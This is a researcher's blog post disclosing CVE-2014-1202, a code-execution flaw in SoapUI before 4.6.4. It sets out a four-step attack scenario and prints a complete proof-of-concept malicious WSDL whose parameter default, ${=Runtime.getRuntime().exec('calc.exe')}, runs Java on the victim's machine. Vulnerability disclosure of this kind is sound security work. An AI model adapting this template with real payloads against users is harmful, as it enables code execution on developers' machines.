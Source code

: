 ```yaml
---
layout: post
title: SoapUI Code Execution Vulnerability - CVE-2014-1202
---
```


![](https://www.soapui.org/soapui/media/images/stories/homepage/Features/soapUI-logo.png)
In this blog post I will discuss a vulnerability I’ve found in the SoapUI product before version 4.6.4 ([CVE-2014-1202](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-1202)).

I discovered this vulnerability during a penetration test in which I saw that the SoapUI software allows the clients to execute a Java code on the local machine by putting a Java code inside the following tag:

  

${=**_JAVA CODE_**};

  
  
The vulnerability allows the attacker to execute the java code on the victim's machine, thereby putting in danger the SoapUI users, including developers, penetration testers, etc.

  

The SoapUI product allows users to open a SOAP / REST project and import  WSDL/WADL files that help the users to communicate with the remote server easily.

WSDL/WADL files are XML-based grammar that define the operations that a web service offers and the format of the request and response messages that the client sends to and receives from the operations.

In WSDL/WADL files, the file owner can determine the default values of some parameters. Thus, an attacker can impersonate a legitimate web service and inject a malicious Java code into a default value of one of the parameters, and spread it to SoapUI clients.

When a SoapUI client will load a malicious WSDL/WADL file to his project in the SoapUI software, and send a request containing the malicious Java code, the SoapUI will execute the malicious Java code on the victim's computer.

  

The attack scenario:

1. An attacker impersonates a regular web service with a malicious WSDL containing the malicious Java code.

2. The victim creates a new project in the SoapUI and loads the malicious WSDL.

3. The victim decides to send a request to the remote server, thus, the SoapUI executes the malicious Java code.

4. The attacker succeeds in executing malicious code in the victim's machine and will take it over.

  

A Proof of Concept (PoC) video can be found at the following link:

[http://www.youtube.com/watch?v=3lCLE64rsc0](http://www.youtube.com/watch?v=3lCLE64rsc0)

An example of a malicious WSDL file can be found at the following link:

```javascript
<!--Malicious WSDL File, SoapUI Code Execution Vulnerability CVE-2014-1202, Barak Tawily-->
<wsdl:definitions targetNamespace="http://example.companyInfo"
 xmlns:tns="http://example.companyInfo"
 xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/"
 xmlns:wsdlsoap="http://schemas.xmlsoap.org/wsdl/soap/"
 xmlns:wsdlmime="http://schemas.xmlsoap.org/wsdl/mime/"
 xmlns:xsd="http://www.w3.org/2001/XMLSchema">

 <wsdl:types>
  <xsd:schema elementFormDefault="qualified"
   targetNamespace="http://example.header">

   <xsd:element name="sampleHeader">
    <xsd:complexType>
     <xsd:all>
      <xsd:element name="priority" type="xsd:int"/>
     </xsd:all>
    </xsd:complexType>
   </xsd:element>
  </xsd:schema>


  <xsd:schema elementFormDefault="qualified"
   targetNamespace="http://example.companyInfo">

   <xsd:element name="Payload_Request">
    <xsd:complexType>
     <xsd:all>
      <xsd:element name="Payload" default="${=Runtime.getRuntime().exec('calc.exe')};" type="xsd:string"/>
     </xsd:all>
    </xsd:complexType>
   </xsd:element>

   <xsd:element name="Payload_RequestResult">
    <xsd:complexType>
     <xsd:all>
      <xsd:element name="result" type="xsd:float"/>
     </xsd:all>
    </xsd:complexType>
   </xsd:element>
  </xsd:schema>
  
  
 </wsdl:types>

 <wsdl:message name="Payload_RequestRequest">
   <wsdl:part name="part1" element="tns:Payload_Request"/>
 </wsdl:message>

 <wsdl:message name="Payload_RequestResponse">
  <wsdl:part name="part1" element="tns:Payload_RequestResult"/>
  <wsdl:part name="part2" type="xsd:string"/>
  <wsdl:part name="part3" type="xsd:base64Binary"/>
 </wsdl:message>

 <wsdl:portType name="CompanyInfo">
  <wsdl:operation name="Payload_Request">
   <wsdl:input message="tns:Payload_RequestRequest"
               name="Payload_RequestRequest"/>
   <wsdl:output message="tns:Payload_RequestResponse"
                name="Payload_RequestResponse"/>
  </wsdl:operation>
 </wsdl:portType>

 <wsdl:binding name="Exploit" type="tns:CompanyInfo">
  <wsdlsoap:binding style="document" transport="http://schemas.xmlsoap.org/soap/http"/>

  <wsdl:operation name="Payload_Request">
   <wsdlsoap:operation soapAction=""/>
   <wsdl:input name="Payload_RequestRequest">
    <wsdlsoap:body use="literal"/>
   </wsdl:input>
   <wsdl:output name="Payload_RequestResponse">
    <wsdlsoap:body use="literal"/>
   </wsdl:output>
  </wsdl:operation>
 </wsdl:binding>

 <wsdl:service name="CompanyInfoService">
  <wsdl:port binding="tns:Exploit" name="SOAPPort">
   <wsdlsoap:address location="http://somewhere/services/CompanyInfoService"/>
  </wsdl:port>
 </wsdl:service>

</wsdl:definitions>
```


